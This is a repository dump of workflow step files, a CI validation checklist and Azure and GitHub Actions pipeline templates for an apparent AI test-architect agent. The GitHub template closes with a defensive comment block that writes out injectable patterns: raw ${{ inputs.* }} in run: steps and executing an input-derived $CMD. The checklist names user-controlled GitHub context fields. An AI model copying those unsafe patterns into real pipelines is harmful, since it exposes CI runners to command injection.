  - API Tests: {api_tests} ({api_test_files} files)
  - E2E Tests: {e2e_tests} ({e2e_test_files} files)         [if frontend/fullstack]
  - Backend Tests: {backend_tests} ({backend_test_files} files)  [if backend/fullstack]
- Fixtures Created: {fixtures_created}
- Priority Coverage:
  - P0 (Critical): {P0} tests
  - P1 (High): {P1} tests
  - P2 (Medium): {P2} tests
  - P3 (Low): {P3} tests

🚀 Performance: {performance_gain}

📂 Generated Files:
- tests/api/[feature].spec.ts                                [always]
- tests/e2e/[feature].spec.ts                                [if frontend/fullstack]
- tests/unit/[feature].test.*                                 [if backend/fullstack]
- tests/integration/[feature].test.*                          [if backend/fullstack]
- tests/fixtures/ or tests/support/                           [shared infrastructure]

✅ Ready for validation (Step 4)
```

---

## EXIT CONDITION

Proceed to Step 4 when:

- ✅ All test files written to disk (API + E2E and/or Backend, based on `{detected_stack}`)
- ✅ All fixtures and helpers created
- ✅ Summary statistics calculated and saved
- ✅ Output displayed to user

---

### 7. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03c-aggregate']
  lastStep: 'step-03c-aggregate'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03c-aggregate'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03c-aggregate'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

Load next step: `{nextStepFile}`

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- All launched subagents succeeded (based on `{detected_stack}`)
- All test files written to disk
- Fixtures generated based on subagent needs
- Summary complete and accurate

### ❌ SYSTEM FAILURE:

- One or more subagents failed
- Test files not written to disk
- Fixtures missing or incomplete
- Summary missing or inaccurate

**Master Rule:** Do NOT proceed to Step 4 if aggregation incomplete.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-04-validate-and-summarize.md`
```markdown
---
name: 'step-04-validate-and-summarize'
description: 'Validate outputs and produce automation summary'
outputFile: '{test_artifacts}/automation-summary.md'
---

# Step 4: Validate & Summarize

## STEP GOAL

Validate generated outputs and produce a concise automation summary.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Validate against the checklist before completion

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Validate

Use `checklist.md` to validate:

- Framework readiness
- Coverage mapping
- Test quality and structure
- Fixtures, factories, helpers
- [ ] CLI sessions cleaned up (no orphaned browsers)
- [ ] Temp artifacts stored in `{test_artifacts}/` not random locations

Fix gaps before proceeding.

---

## 2. Polish Output

Before finalizing, review the complete output document for quality:

1. **Remove duplication**: Progressive-append workflow may have created repeated sections — consolidate
2. **Verify consistency**: Ensure terminology, risk scores, and references are consistent throughout
3. **Check completeness**: All template sections should be populated or explicitly marked N/A
4. **Format cleanup**: Ensure markdown formatting is clean (tables aligned, headers consistent, no orphaned references)

---

## 3. Summary Output

Write `{outputFile}` including:

- Coverage plan by test level and priority
- Files created/updated
- Key assumptions and risks
- Next recommended workflow (e.g., `test-review` or `trace`)

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-validate-and-summarize']
  lastStep: 'step-04-validate-and-summarize'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04-validate-and-summarize'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-validate-and-summarize'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/automate-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-ci/SKILL.md`
```markdown
---
name: bmad-testarch-ci
description: 'Scaffold CI/CD quality pipeline with test execution. Use when the user says "lets setup CI pipeline" or "I want to create quality gates"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-ci/azure-pipelines-template.yaml`
```yaml
# Azure DevOps CI/CD Pipeline for Test Execution
# Generated by BMad TEA Agent - Test Architect Module
# Optimized for: Parallel Sharding, Burn-In Loop
# Stack: {test_stack_type} | Framework: {test_framework}
#
# Variables to customize per project:
#   INSTALL_CMD       - dependency install command (e.g., npm ci, pnpm install --frozen-lockfile)
#   TEST_CMD          - main test command (e.g., npm run test:e2e, npm test, npx vitest)
#   LINT_CMD          - lint command (e.g., npm run lint)
#   BROWSER_INSTALL   - browser install command (frontend/fullstack only; omit for backend)
#   DEFAULT_NODE_VERSION - Node.js version (read from .nvmrc or default to 24)

trigger:
  branches:
    include:
      - main
      - develop

pr:
  branches:
    include:
      - main
      - develop

variables:
  DEFAULT_NODE_VERSION: "24"
  npm_config_cache: $(Pipeline.Workspace)/.npm
  # Set TEST_STACK_TYPE to 'backend' to skip Playwright browser installs
  TEST_STACK_TYPE: "" # Values: frontend, backend, fullstack (leave empty for auto)

stages:
  # Lint stage - Code quality checks
  - stage: Lint
    displayName: "Lint"
    jobs:
      - job: LintJob
        displayName: "Code Quality"
        pool:
          vmImage: "ubuntu-latest"
        timeoutInMinutes: 5
        steps:
          - task: NodeTool@0
            inputs:
              versionSpec: $(DEFAULT_NODE_VERSION)
            displayName: "Setup Node.js"

          - task: Cache@2
            inputs:
              key: 'npm | "$(Agent.OS)" | package-lock.json'
              restoreKeys: 'npm | "$(Agent.OS)"'
              path: $(npm_config_cache)
            displayName: "Cache npm"

          - script: npm ci
            displayName: "Install dependencies" # Replace with INSTALL_CMD

          - script: npm run lint
            displayName: "Run linter" # Replace with LINT_CMD

  # Test stage - Parallel execution with sharding
  - stage: Test
    displayName: "Test"
    dependsOn: Lint
    jobs:
      - job: TestShard
        displayName: "Test Shard"
        pool:
          vmImage: "ubuntu-latest"
        timeoutInMinutes: 30
        strategy:
          matrix:
            Shard1:
              SHARD_INDEX: 1
            Shard2:
              SHARD_INDEX: 2
            Shard3:
              SHARD_INDEX: 3
            Shard4:
              SHARD_INDEX: 4
        steps:
          - task: NodeTool@0
            inputs:
              versionSpec: $(DEFAULT_NODE_VERSION)
            displayName: "Setup Node.js"

          - task: Cache@2
            inputs:
              key: 'npm | "$(Agent.OS)" | package-lock.json'
              restoreKeys: 'npm | "$(Agent.OS)"'
              path: $(npm_config_cache)
            displayName: "Cache npm"

          - script: npm ci
            displayName: "Install dependencies" # Replace with INSTALL_CMD

          # Frontend/Fullstack only — skipped for backend-only stacks
          - script: npx playwright install --with-deps chromium
            condition: ne(variables['TEST_STACK_TYPE'], 'backend')
            displayName: "Install Playwright browsers" # Replace with BROWSER_INSTALL

          - script: npm run test:e2e -- --shard=$(SHARD_INDEX)/4
            displayName: "Run tests (shard $(SHARD_INDEX)/4)" # Replace with TEST_CMD + shard args

          - task: PublishTestResults@2
            condition: always()
            inputs:
              testResultsFormat: "JUnit"
              testResultsFiles: "test-results/**/*.xml"
              mergeTestResults: true
            displayName: "Publish test results"

          - publish: test-results/
            artifact: test-results-$(SHARD_INDEX)
            condition: failed()
            displayName: "Upload failure artifacts"

  # Burn-in stage - Flaky test detection
  # Note: Burn-in targets UI flakiness. For backend-only stacks, remove this stage entirely.
  - stage: BurnIn
    displayName: "Burn-In (Flaky Detection)"
    dependsOn: Test
    condition: and(succeeded(), or(eq(variables['Build.Reason'], 'PullRequest'), eq(variables['Build.CronSchedule.DisplayName'], 'Weekly burn-in')))
    jobs:
      - job: BurnInJob
        displayName: "Burn-In Loop"
        pool:
          vmImage: "ubuntu-latest"
        timeoutInMinutes: 60
        steps:
          - task: NodeTool@0
            inputs:
              versionSpec: $(DEFAULT_NODE_VERSION)
            displayName: "Setup Node.js"

          - script: npm ci
            displayName: "Install dependencies" # Replace with INSTALL_CMD

          # Frontend/Fullstack only — skipped for backend-only stacks
          - script: npx playwright install --with-deps chromium
            condition: ne(variables['TEST_STACK_TYPE'], 'backend')
            displayName: "Install Playwright browsers" # Replace with BROWSER_INSTALL

          - script: |
              echo "Starting burn-in loop - detecting flaky tests"
              for i in $(seq 1 10); do
                echo "Burn-in iteration $i/10"
                npm run test:e2e || exit 1
              done
              echo "Burn-in complete - no flaky tests detected"
            displayName: "Run burn-in loop (10 iterations)" # Replace npm run test:e2e with TEST_CMD

          - publish: test-results/
            artifact: burn-in-failures
            condition: failed()
            displayName: "Upload burn-in failure artifacts"
```

## File: `src/workflows/testarch/bmad-testarch-ci/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-ci/checklist.md`
```markdown
# CI/CD Pipeline Setup - Validation Checklist

## Prerequisites

- [ ] Git repository initialized (`.git/` exists)
- [ ] Git remote configured (`git remote -v` shows origin)
- [ ] Test framework configured (appropriate config for detected stack type)
- [ ] Local tests pass (test command succeeds)
- [ ] Team agrees on CI platform
- [ ] Access to CI platform settings (if updating)

### Multi-Stack Detection

- [ ] Test stack type detected or configured (`frontend`, `backend`, `fullstack`)
- [ ] Test framework detected or configured (Playwright, Cypress, Jest, Vitest, etc.)
- [ ] Stack-appropriate test commands identified

### Multi-Platform Detection

- [ ] CI platform detected or configured
- [ ] Supported platform: GitHub Actions, GitLab CI, Jenkins, Azure DevOps, Harness, or Circle CI
- [ ] Platform-specific template selected

Note: CI setup is typically a one-time task per repo and can be run any time after the test framework is configured.

## Process Steps

### Step 1: Preflight Checks

- [ ] Git repository validated
- [ ] Framework configuration detected
- [ ] Local test execution successful
- [ ] CI platform detected or selected
- [ ] Node version identified (.nvmrc or default)
- [ ] No blocking issues found

### Step 2: CI Pipeline Configuration

- [ ] CI configuration file created at platform-correct path
  - GitHub Actions: `.github/workflows/test.yml`
  - GitLab CI: `.gitlab-ci.yml`
  - Jenkins: `Jenkinsfile`
  - Azure DevOps: `azure-pipelines.yml`
  - Harness: `.harness/pipeline.yaml`
  - Circle CI: `.circleci/config.yml`
- [ ] File is syntactically valid (no YAML/Groovy errors)
- [ ] Correct framework commands configured for detected stack type
- [ ] Node version matches project
- [ ] Test directory paths correct
- [ ] Stack-conditional steps applied:
  - [ ] Browser install included for frontend/fullstack stacks
  - [ ] Browser install omitted for backend-only stacks
  - [ ] Test commands match detected framework

### Step 3: Parallel Sharding

- [ ] Matrix strategy configured (4 shards default)
- [ ] Shard syntax correct for framework
- [ ] fail-fast set to false
- [ ] Shard count appropriate for test suite size

### Step 4: Burn-In Loop

- [ ] Burn-in job created (frontend/fullstack stacks) or intentionally skipped (backend-only)
- [ ] 10 iterations configured (when enabled)
- [ ] Proper exit on failure (`|| exit 1`)
- [ ] Runs on appropriate triggers (PR, cron)
- [ ] Failure artifacts uploaded
- [ ] Backend-only stacks: burn-in skipped by default (documented reason: targets UI flakiness)

### Step 5: Caching Configuration

- [ ] Dependency cache configured (npm/yarn)
- [ ] Cache key uses lockfile hash
- [ ] Browser cache configured (Playwright/Cypress)
- [ ] Restore-keys defined for fallback
- [ ] Cache paths correct for platform

### Step 6: Artifact Collection

- [ ] Artifacts upload on failure only
- [ ] Correct artifact paths (test-results/, traces/, etc.)
- [ ] Retention days set (30 default)
- [ ] Artifact names unique per shard
- [ ] No sensitive data in artifacts

### Step 7: Retry Logic

- [ ] Retry action/strategy configured
- [ ] Max attempts: 2-3
- [ ] Timeout appropriate (30 min)
- [ ] Retry only on transient errors

### Step 8: Helper Scripts

- [ ] `scripts/test-changed.sh` created
- [ ] `scripts/ci-local.sh` created
- [ ] `scripts/burn-in.sh` created (optional)
- [ ] Scripts are executable (`chmod +x`)
- [ ] Scripts use correct test commands
- [ ] Shebang present (`#!/bin/bash`)

### Step 9: Documentation

- [ ] `brain/knowledge/docs_legacy/ci.md` created with pipeline guide
- [ ] `brain/knowledge/docs_legacy/ci-secrets-checklist.md` created
- [ ] Required secrets documented
- [ ] Setup instructions clear
- [ ] Troubleshooting section included
- [ ] Badge URLs provided (optional)

## Output Validation

### Configuration Validation

- [ ] CI file loads without errors
- [ ] All paths resolve correctly
- [ ] No hardcoded values (use env vars)
- [ ] Triggers configured (push, pull_request, schedule)
- [ ] Platform-specific syntax correct

### Execution Validation

- [ ] First CI run triggered (push to remote)
- [ ] Pipeline starts without errors
- [ ] All jobs appear in CI dashboard
- [ ] Caching works (check logs for cache hit)
- [ ] Tests execute in parallel
- [ ] Artifacts collected on failure

### Performance Validation

- [ ] Lint stage: <2 minutes
- [ ] Test stage (per shard): <10 minutes
- [ ] Burn-in stage: <30 minutes
- [ ] Total pipeline: <45 minutes
- [ ] Cache reduces install time by 2-5 minutes

## Quality Checks

### Best Practices Compliance

- [ ] Burn-in loop follows production patterns
- [ ] Parallel sharding configured optimally
- [ ] Failure-only artifact collection
- [ ] Selective testing enabled (optional)
- [ ] Retry logic handles transient failures only
- [ ] No secrets in configuration files

### Knowledge Base Alignment

- [ ] Burn-in pattern matches `ci-burn-in.md`
- [ ] Selective testing matches `selective-testing.md`
- [ ] Artifact collection matches `visual-debugging.md`
- [ ] Test quality matches `test-quality.md`

### Security Checks

- [ ] No credentials in CI configuration
- [ ] Secrets use platform secret management
- [ ] Environment variables for sensitive data
- [ ] Artifact retention appropriate (not too long)
- [ ] No debug output exposing secrets
- [ ] **MUST**: No `${{ inputs.* }}` or user-controlled GitHub context (`github.event.pull_request.title`, `github.event.issue.body`, `github.event.comment.body`, `github.head_ref`) directly in `run:` blocks — all passed through `env:` intermediaries and referenced as `"$ENV_VAR"`

## Integration Points

### Status File Integration

- [ ] CI setup logged in Quality & Testing Progress section
- [ ] Status updated with completion timestamp
- [ ] Platform and configuration noted

### Knowledge Base Integration

- [ ] Relevant knowledge fragments loaded
- [ ] Patterns applied from knowledge base
- [ ] Documentation references knowledge base
- [ ] Knowledge base references in README

### Workflow Dependencies

- [ ] `framework` workflow completed first
- [ ] Can proceed to `atdd` workflow after CI setup
- [ ] Can proceed to `automate` workflow
- [ ] CI integrates with `gate` workflow

## Completion Criteria

**All must be true:**

- [ ] All prerequisites met
- [ ] All process steps completed
- [ ] All output validations passed
- [ ] All quality checks passed
- [ ] All integration points verified
- [ ] First CI run successful
- [ ] Performance targets met
- [ ] Documentation complete

## Post-Workflow Actions

**User must complete:**

1. [ ] Commit CI configuration
2. [ ] Push to remote repository
3. [ ] Configure required secrets in CI platform
4. [ ] Open PR to trigger first CI run
5. [ ] Monitor and verify pipeline execution
6. [ ] Adjust parallelism if needed (based on actual run times)
7. [ ] Set up notifications (optional)

**Recommended next workflows:**

1. [ ] Run `atdd` workflow for test generation
2. [ ] Run `automate` workflow for coverage expansion
3. [ ] Run `gate` workflow for quality gates

## Rollback Procedure

If workflow fails:

1. [ ] Delete CI configuration file
2. [ ] Remove helper scripts directory
3. [ ] Remove documentation (brain/knowledge/docs_legacy/ci.md, etc.)
4. [ ] Clear CI platform secrets (if added)
5. [ ] Review error logs
6. [ ] Fix issues and retry workflow

## Notes

### Common Issues

**Issue**: CI file syntax errors

- **Solution**: Validate YAML syntax online or with linter

**Issue**: Tests fail in CI but pass locally

- **Solution**: Use `scripts/ci-local.sh` to mirror CI environment

**Issue**: Caching not working

- **Solution**: Check cache key formula, verify paths

**Issue**: Burn-in too slow

- **Solution**: Reduce iterations or run on cron only

### Platform-Specific

**GitHub Actions:**

- Secrets: Repository Settings → Secrets and variables → Actions
- Runners: Ubuntu latest recommended
- Concurrency limits: 20 jobs for free tier

**GitLab CI:**

- Variables: Project Settings → CI/CD → Variables
- Runners: Shared or project-specific
- Pipeline quota: 400 minutes/month free tier

**Jenkins:**

- Credentials: Manage Jenkins → Manage Credentials
- Agents: Configure build agents with Node.js
- Plugins: Pipeline, JUnit, HTML Publisher recommended

**Azure DevOps:**

- Variables: Pipelines → Library → Variable groups
- Agent pools: Azure-hosted or self-hosted
- Parallel jobs: 1 free (Microsoft-hosted)

**Harness:**

- Connectors: Configure container registry and code repo connectors
- Delegates: Install Harness delegate in target infrastructure
- Steps: Use Run steps with appropriate container images

---

**Checklist Complete**: Sign off when all items validated.

**Completed by:** {name}
**Date:** {date}
**Platform:** {GitHub Actions, GitLab CI, Other}
**Notes:** {notes}
```

## File: `src/workflows/testarch/bmad-testarch-ci/github-actions-template.yaml`
```yaml
# GitHub Actions CI/CD Pipeline for Test Execution
# Generated by BMad TEA Agent - Test Architect Module
# Optimized for: Parallel Sharding, Burn-In Loop
# Stack: {test_stack_type} | Framework: {test_framework}
#
# Variables to customize per project:
#   INSTALL_CMD       - dependency install command (e.g., npm ci, pnpm install --frozen-lockfile, yarn --frozen-lockfile)
#   TEST_CMD          - main test command (e.g., npm run test:e2e, npm test, npx vitest)
#   LINT_CMD          - lint command (e.g., npm run lint)
#   BROWSER_INSTALL   - browser install command (frontend/fullstack only; omit for backend)
#   BROWSER_CACHE_PATH - browser cache path (frontend/fullstack only; omit for backend)

name: Test Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main, develop]
  schedule:
    # Weekly burn-in on Sundays at 2 AM UTC
    - cron: "0 2 * * 0"

concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true

jobs:
  # Lint stage - Code quality checks
  lint:
    name: Lint
    runs-on: ubuntu-latest
    timeout-minutes: 5

    steps:
      - uses: actions/checkout@v4

      - name: Determine Node version
        id: node-version
        run: |
          if [ -f .nvmrc ]; then
            echo "value=$(cat .nvmrc)" >> "$GITHUB_OUTPUT"
            echo "Using Node from .nvmrc"
          else
            echo "value=24" >> "$GITHUB_OUTPUT"
            echo "Using default Node 24 (current LTS)"
          fi

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ steps.node-version.outputs.value }}
          cache: "npm"

      - name: Install dependencies
        run: npm ci # Replace with INSTALL_CMD

      - name: Run linter
        run: npm run lint # Replace with LINT_CMD

  # Test stage - Parallel execution with sharding
  test:
    name: Test (Shard ${{ matrix.shard }})
    runs-on: ubuntu-latest
    timeout-minutes: 30
    needs: lint

    strategy:
      fail-fast: false
      matrix:
        shard: [1, 2, 3, 4]

    steps:
      - uses: actions/checkout@v4

      - name: Determine Node version
        id: node-version
        run: |
          if [ -f .nvmrc ]; then
            echo "value=$(cat .nvmrc)" >> "$GITHUB_OUTPUT"
            echo "Using Node from .nvmrc"
          else
            echo "value=22" >> "$GITHUB_OUTPUT"
            echo "Using default Node 22 (current LTS)"
          fi

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ steps.node-version.outputs.value }}
          cache: "npm"

      - name: Cache Playwright browsers
        uses: actions/cache@v4
        with:
          path: ~/.cache/ms-playwright
          key: ${{ runner.os }}-playwright-${{ hashFiles('**/package-lock.json') }}
          restore-keys: |
            ${{ runner.os }}-playwright-

      - name: Install dependencies
        run: npm ci # Replace with INSTALL_CMD

      # Frontend/Fullstack only — remove this step for backend-only stacks
      - name: Install Playwright browsers
        run: npx playwright install --with-deps chromium # Replace with BROWSER_INSTALL

      - name: Run tests (shard ${{ matrix.shard }}/4)
        run: npm run test:e2e -- --shard=${{ matrix.shard }}/4 # Replace with TEST_CMD + shard args

      - name: Upload test results
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: test-results-${{ matrix.shard }}
          path: |
            test-results/
            playwright-report/
          retention-days: 30

  # Burn-in stage - Flaky test detection
  burn-in:
    name: Burn-In (Flaky Detection)
    runs-on: ubuntu-latest
    timeout-minutes: 60
    needs: test
    # Only run burn-in on PRs to main/develop or on schedule
    if: github.event_name == 'pull_request' || github.event_name == 'schedule'

    steps:
      - uses: actions/checkout@v4

      - name: Determine Node version
        id: node-version
        run: |
          if [ -f .nvmrc ]; then
            echo "value=$(cat .nvmrc)" >> "$GITHUB_OUTPUT"
            echo "Using Node from .nvmrc"
          else
            echo "value=22" >> "$GITHUB_OUTPUT"
            echo "Using default Node 22 (current LTS)"
          fi

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ steps.node-version.outputs.value }}
          cache: "npm"

      # Frontend/Fullstack only — remove this step for backend-only stacks
      - name: Cache Playwright browsers
        uses: actions/cache@v4
        with:
          path: ~/.cache/ms-playwright # Replace with BROWSER_CACHE_PATH
          key: ${{ runner.os }}-playwright-${{ hashFiles('**/package-lock.json') }}

      - name: Install dependencies
        run: npm ci # Replace with INSTALL_CMD

      # Frontend/Fullstack only — remove this step for backend-only stacks
      - name: Install Playwright browsers
        run: npx playwright install --with-deps chromium # Replace with BROWSER_INSTALL

      # Note: Burn-in targets UI flakiness. For backend-only stacks, remove this job entirely.
      - name: Run burn-in loop (10 iterations)
        run: |
          echo "🔥 Starting burn-in loop - detecting flaky tests"
          for i in {1..10}; do
            echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
            echo "🔥 Burn-in iteration $i/10"
            echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
            npm run test:e2e || exit 1  # Replace with TEST_CMD
          done
          echo "✅ Burn-in complete - no flaky tests detected"

      - name: Upload burn-in failure artifacts
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: burn-in-failures
          path: |
            test-results/
            playwright-report/
          retention-days: 30

  # Report stage - Aggregate and publish results
  report:
    name: Test Report
    runs-on: ubuntu-latest
    needs: [test, burn-in]
    if: always()

    steps:
      - name: Download all artifacts
        uses: actions/download-artifact@v4
        with:
          path: artifacts

      - name: Generate summary
        run: |
          echo "## Test Execution Summary" >> $GITHUB_STEP_SUMMARY
          echo "" >> $GITHUB_STEP_SUMMARY
          echo "- **Status**: ${{ needs.test.result }}" >> $GITHUB_STEP_SUMMARY
          echo "- **Burn-in**: ${{ needs.burn-in.result }}" >> $GITHUB_STEP_SUMMARY
          echo "- **Shards**: 4" >> $GITHUB_STEP_SUMMARY
          echo "" >> $GITHUB_STEP_SUMMARY

          if [ "${{ needs.burn-in.result }}" == "failure" ]; then
            echo "⚠️ **Flaky tests detected** - Review burn-in artifacts" >> $GITHUB_STEP_SUMMARY
          fi

# ============================================================================
# EXTENSION PATTERNS — Script Injection Prevention
# ============================================================================
# When extending this template into reusable workflows, manual dispatch
# workflows, or composite actions, NEVER use ${{ inputs.* }} directly in
# run: blocks. Always pass through env: intermediaries.
#
# KEY PRINCIPLE: Inputs must be DATA, not COMMANDS.
# Pass inputs through env: and interpolate as quoted arguments into fixed
# commands. NEVER accept command-shaped inputs (e.g., install-command,
# test-command) that get executed as shell code — even through env:.
#
# --- Reusable Workflow (workflow_call) ---
#
# on:
#   workflow_call:
#     inputs:
#       test-grep:
#         description: 'Test grep filter (data only — not a command)'
#         type: string
#         required: false
#         default: ''
#       base-ref:
#         description: 'Base branch for diff'
#         type: string
#         required: false
#         default: 'main'
#       burn-in-count:
#         description: 'Number of burn-in iterations'
#         type: string
#         required: false
#         default: '10'
#
# jobs:
#   test:
#     runs-on: ubuntu-latest
#     steps:
#       - uses: actions/checkout@v4
#       # Fixed command — not derived from inputs
#       - name: Install dependencies
#         run: npm ci
#       # ✅ SAFE — input is DATA passed as an argument to a fixed command
#       - name: Run tests
#         env:
#           TEST_GREP: ${{ inputs.test-grep }}
#         run: |
#           # Security: inputs passed through env: to prevent script injection
#           if [ -n "$TEST_GREP" ]; then
#             npx playwright test --grep "$TEST_GREP"
#           else
#             npx playwright test
#           fi
#
# --- Manual Dispatch (workflow_dispatch) ---
#
# on:
#   workflow_dispatch:
#     inputs:
#       test-grep:
#         description: 'Test grep filter (data only — not a command)'
#         type: string
#         required: false
#       environment:
#         description: 'Target environment'
#         type: choice
#         options: [staging, production]
#
# jobs:
#   run-tests:
#     runs-on: ubuntu-latest
#     steps:
#       - uses: actions/checkout@v4
#       # ✅ SAFE — input is DATA interpolated into a fixed command
#       - name: Run selected tests
#         env:
#           TEST_GREP: ${{ inputs.test-grep }}
#         run: |
#           # Security: inputs passed through env: to prevent script injection
#           npx playwright test --grep "$TEST_GREP"
#
# --- Composite Action (action.yml) ---
#
# inputs:
#   test-grep:
#     description: 'Test grep filter (data only — not a command)'
#     required: false
#     default: ''
#   burn-in-count:
#     description: 'Number of burn-in iterations'
#     required: false
#     default: '10'
#
# runs:
#   using: composite
#   steps:
#     # ✅ SAFE — inputs are DATA arguments to fixed commands
#     - name: Run burn-in
#       shell: bash
#       env:
#         TEST_GREP: ${{ inputs.test-grep }}
#         BURN_IN_COUNT: ${{ inputs.burn-in-count }}
#       run: |
#         # Security: inputs passed through env: to prevent script injection
#         for i in $(seq 1 "$BURN_IN_COUNT"); do
#           echo "Burn-in iteration $i/$BURN_IN_COUNT"
#           npx playwright test --grep "$TEST_GREP" || exit 1
#         done
#
# ❌ NEVER DO THIS:
#   # Direct ${{ inputs.* }} in run: — GitHub expression injection
#   - run: npx playwright test --grep "${{ inputs.test-grep }}"
#
#   # Executing input-derived env var as a command — still command injection
#   - env:
#       CMD: ${{ inputs.test-command }}
#     run: $CMD
# ============================================================================
```

## File: `src/workflows/testarch/bmad-testarch-ci/gitlab-ci-template.yaml`
```yaml
# GitLab CI/CD Pipeline for Test Execution
# Generated by BMad TEA Agent - Test Architect Module
# Optimized for: Parallel Sharding, Burn-In Loop
# Stack: {test_stack_type} | Framework: {test_framework}
#
# Variables to customize per project:
#   INSTALL_CMD       - dependency install command (e.g., npm ci, pnpm install --frozen-lockfile)
#   TEST_CMD          - main test command (e.g., npm run test:e2e, npm test, npx vitest)
#   LINT_CMD          - lint command (e.g., npm run lint)
#   BROWSER_INSTALL   - browser install command (frontend/fullstack only; omit for backend)
